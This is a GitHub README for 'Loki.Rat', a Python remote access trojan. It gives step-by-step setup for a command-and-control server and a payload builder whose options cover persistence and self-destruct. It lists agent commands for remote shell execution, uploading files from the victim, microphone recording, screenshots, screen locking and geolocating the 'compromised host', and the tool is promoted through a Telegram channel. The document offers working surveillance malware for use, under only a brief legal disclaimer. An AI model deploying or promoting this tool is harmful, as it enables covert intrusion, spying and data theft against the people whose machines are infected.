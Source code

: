# Pegasus Loki Rat

![Loki.Rat](https://github.com/sobri3195/pegasus-loki-rat/blob/master/Lokirat.jpg)

Loki.Rat is a fork of the [Pegasus Loki RAT](https://github.com/sobri3195/Ares), it integrates new modules, like recording , lockscreen , and locate options.
Loki.Rat is a Python Remote Access Tool.

# Join our Telegram Channel [Loki.Rat](https://t.me/cybersecuritydown)


[![How to Use Loki.Rat]

Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.
![Loki.Rat](https://3.bp.blogspot.com/-hCo9eJTSH5Y/WknUCULBwUI/AAAAAAAAAtY/i08DjoFqwLUsmnXhI7e5YX9AJuZmrjitQCLcBGAs/s1600/1234.png)

Loki.Rat is made of two main programs:

    A Command aNd Control server, which is a Web interface to administer the agents
    An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python. The agent[Payload] can be compiled to native executables using pyinstaller.
# Setup 

Install The Loki.Rat 

Open a terminal windows and type this command :
 ```
     git clone https://github.com/sobri3195/pegasus-loki-rat.git
     cd Loki.Rat
 ```
 Install the Python modules requirements:
 ```
     pip install -r requirements.txt
 ```
 Initialize the database:
 ```
     cd server
    ./loki.py initdb
 ```    
 In order to compile Windows agents on Linux, setup wine (optional):
 ```
     ./wine_setup.sh
 ```
 ## Server
 
 Run with the builtin (debug) server:
 ```
     ./loki.py runserver -h 127.0.0.1 -p 8080 --threaded
 ```
 Or run using gunicorn:
 ```
     gunicorn loki:app -b 127.0.0.1:8080 --threads 20
 ```
 The server should now be accessible on http://127.0.0.1:8080
 
 ## Payload
 Run the Python payload (update config.py to suit your needs):
 ```
     cd payload
     ./payload.py
 ```
 Build a new payload to a standalone binary:
 ```
     ./builder.py -p Linux --server http://localhost:8080 -o payload
     ./payload
 ```
 To see a list of supported options, run ./builder.py -h
 ```
     ./payload/builder.py -h
     usage: builder.py [-h] -p PLATFORM --server SERVER -o OUTPUT
                    [--hello-interval HELLO_INTERVAL] [--idle_time IDLE_TIME]
                    [--max_failed_connections MAX_FAILED_CONNECTIONS]
                    [--persistent]

     Builds an Loki.Rat payload

     optional arguments:
     -h, --help            show this help message and exit
     -p PLATFORM, --platform PLATFORM
                         Target platform (Windows, Linux).
     --server SERVER       Address of the CnC server (e.g http://127.0.0.1:8080).
     -o OUTPUT, --output OUTPUT
                         Output file name.
     --hello-interval HELLO_INTERVAL
                        Delay (in seconds) between each request to the CnC.
     --idle_time IDLE_TIME
                         Inactivity time (in seconds) after which to go idle.
                         In idle mode, the agent pulls commands less often
                         (every <hello_interval> seconds).
     --max_failed_connections MAX_FAILED_CONNECTIONS
                         The agent will self destruct if no contact with the
                         CnC can be made <max_failed_connections> times in a
                         row.
     --persistent          Automatically install the agent on first run.
```
![Pegasus-Loki.Rat]
Supported payload commands
```
     <any shell command>
     Executes the command in a shell and return its output.

     upload <local_file>
     Uploads <local_file> to server.

     download <url> <destination>
     Downloads a file through HTTP(S).

     zip <archive_name> <folder>
     Creates a zip archive of the folder.

     screenshot
     Takes a screenshot.

     python <command|file>
     Runs a Python command or local file.

     persist
     Installs the agent.

     clean
     Uninstalls the agent.

     exit
     Kills the agent.
     
     record
          -h, --help            show this help message and exit
          -t RECORD_SECONDS, --time RECORD_SECONDS
                                Set a timing in seconds for record. (e.g 10)
          -c CHANNELS, --channel CHANNELS
                                Channel for the microphone (e.g 2).
          -ch CHUNK, --chunk CHUNK
                                Chunk for the microphone (e.g 1024).
          -r RATE, --rate RATE  Rate (e.g 44100).
          
     lockscreen
     lock screen only on windows and Linux with Gnome environnement
     
     Geolocalisation
     locate the target machine , and print the Latitude and Longitude
          
     help
     This help.
```

## Author
Muhammad Sobri Maulana - Pegasus Hacker
